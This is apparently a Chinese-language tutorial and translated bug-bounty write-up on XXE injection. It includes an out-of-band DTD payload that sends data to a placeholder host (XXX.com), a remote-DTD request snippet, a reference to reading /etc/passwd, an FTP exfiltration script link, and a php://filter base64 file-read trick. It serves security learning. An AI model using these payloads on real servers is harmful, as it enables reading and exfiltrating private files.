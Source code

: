 参数实体在DTD中解析优先级高于xml内部实体

实体相当于变量 "file:///etc/passwd"赋值给name

外部实体类型有

![xxe](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/images/xxe2.png)

## 0x02 简单实例
---

将以下放到 vps上
```
<!ENTITY % info "1234"> 

<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://XXX.com/?xxe_l=%info;'>">

%int;

%trick;
```

	%号为&#37;

请求中添加下列code
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://xxx/1.xml">%remote;]>
```

![信息收集](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/images/xxe1.png)

查看日志 可获得请求ip

### 0x03 翻译
---

与任何赏金猎人开始一样，侦察对于尽可能多地识别资产是必要的。通过这次侦察，我发现了一个引起我兴趣的子域。然后我暴力强制子域的目录，并找到了利用点，通过GET请求访问此导致以下页面：
![xxe](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/images/xxe3.png)
我注意到response，xml content-type和包含XML SOAP的xml，因为没有GET参数，改为POST请求，相应200，无内容。
![xxe](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/images/xxe4.png)
由于对POST相应200，而不是发出405 method not allow,所以我决定包含xml，Content-type: application/xml
![xxe](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/images/xxe5.png)
这次也是发送GET请求，但是这次，标签相应的是"OK"，而不是"TestRequestCalled",尝试发送json请求。
![xxe](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/images/xxe6.png)
看到相应空白，我坚信正在处理XML数据。这使我把DTD文件放到vps上。
![xxe](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/images/xxe7.png)
我也开始使用这个[https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb)脚本,和用ftp服务器监听以至于能获取服务器信息/文件内容

### 0x04 可能碰到情况
---
php 读取文件中有<等符号 利用php伪协议 php://filter 利用base64编码
php://filter/read=convert.base64-encode/resource=file://xxx/xxx.php
